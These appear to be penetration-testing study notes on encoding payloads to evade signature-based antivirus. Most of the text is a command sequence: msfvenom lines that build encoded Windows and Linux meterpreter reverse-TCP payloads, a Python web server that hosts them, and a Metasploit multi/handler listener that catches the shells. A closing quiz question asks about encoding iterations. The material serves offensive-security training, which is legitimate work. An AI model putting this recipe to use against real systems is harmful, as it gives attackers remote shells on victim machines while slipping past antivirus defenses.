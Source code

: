 
- Modifying the payload shell code to modify the payload signature.
- Used to evade AV detection.
- Most AV solutions are signature based. 

#### Shellcode 
- Piece of code used for exploitation
- The name comes from giving the user control via the command line

List Encoders
```
msfvenom --list encoders
```

Generate Windows Payload and encode it
All payloads for windows are for 32 bit by default unless stated other wise
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_host> LPORT=1234 -i 10 -e <encoder_name> -f exe > <dir_&_payload_name>
```

Generate Linux payload
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<local_host> LPORT<local_port> -i 10 -e  <encoder_name> -f elf  > <dir_&_payload_name>
```

Host exploit on web server with python
```
sudo python -m SimpleHTTPServer 80
```

Create handler
```
exploit/multi/handler
set payload /windows/meterpreter/
set LHOST <local_host>
set LPORT <local_port>
exploit
```

## Quiz

Which of the following Msfvenom options can be used to increase the number of encoding iterations? (Choose two)

```
-i 10
```

